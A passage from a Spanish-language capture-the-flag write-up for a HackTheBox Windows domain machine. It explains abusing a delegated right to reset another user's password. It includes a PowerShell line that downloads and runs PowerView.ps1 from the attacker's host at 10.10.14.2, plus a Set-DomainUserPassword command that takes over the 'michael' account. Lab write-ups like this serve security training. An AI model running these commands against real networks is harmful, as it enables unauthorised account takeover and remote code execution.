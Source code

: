 <figure><img src="../../../.gitbook/assets/2521_vmware_elawmgnG3j.png" alt=""><figcaption></figcaption></figure>

Esto significa que podemos realizar un cambio de contraseña al usuario objetivo, en este caso, como tenemos acceso a la máquina Windows, podemos realizar el "Windows Abuse".

<figure><img src="../../../.gitbook/assets/2522_vmware_zVJe0sdif1.png" alt=""><figcaption></figcaption></figure>

Volveremos a la terminal del WinRM, importaremos el módulo de _PowerView.ps1_ que disponemos en nuestra Kali y procederemos a asignarle una nueva contraseña al usuario (michael@administrator.htb).

<pre class="language-powershell" data-overflow="wrap"><code class="lang-powershell">ls PowerView.ps1
<strong>
</strong><strong>python3 -m http.server 80
</strong>
IEX (New-Object Net.WebClient).downloadString("http://10.10.14.2/PowerView.ps1")

$UserPassword = ConvertTo-SecureString 'Gzzcoo123' -AsPlainText -Force

Set-DomainUserPassword -Identity michael -AccountPassword $UserPassword 
</code></pre>

<figure><img src="../../../.gitbook/assets/2523_vmware_9T26ZtfclK.png" alt=""><figcaption></figcaption></figure>

